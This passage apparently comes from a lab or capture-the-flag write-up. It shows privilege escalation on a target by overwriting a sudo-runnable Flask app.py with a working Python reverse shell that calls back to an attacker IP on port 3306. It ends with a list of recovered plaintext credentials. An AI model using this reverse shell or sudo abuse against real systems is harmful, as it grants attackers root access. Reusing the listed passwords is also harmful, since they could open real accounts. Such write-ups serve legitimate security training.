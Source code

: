 ![image.png](image%2011.png)

Here what I see, fuzzing for directories doesn’t reveal anything either.

I understand that it executes the code written in `app.py` file:

```bash
from flask import Flask, render_template

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")
```

which creates an `index.html` file that we see when accessing from browser and it is saved under `templates` directory.

![image.png](image%2012.png)

I am gonna change the contents of `app.py` to reverse shell and run it with sudo:

```python
import socket
import os
import pty

RHOST = "192.168.45.159"
RPORT = 3306

s = socket.socket()
s.connect((RHOST, RPORT))

# Duplicate socket file descriptor to stdin, stdout, and stderr
for fd in (0, 1, 2):
    os.dup2(s.fileno(), fd)

# Spawn a shell
pty.spawn("/bin/sh")

```

After executing the command I got a root shell. (I used port that is open on the target other ports might be blocked)

![image.png](image%2013.png)

## Credentials

```bash
BitForgeAdmin : B1tForG3S0ftw4r3S0lutions -> Database creds

jack : j4cKF0rg3@445
```
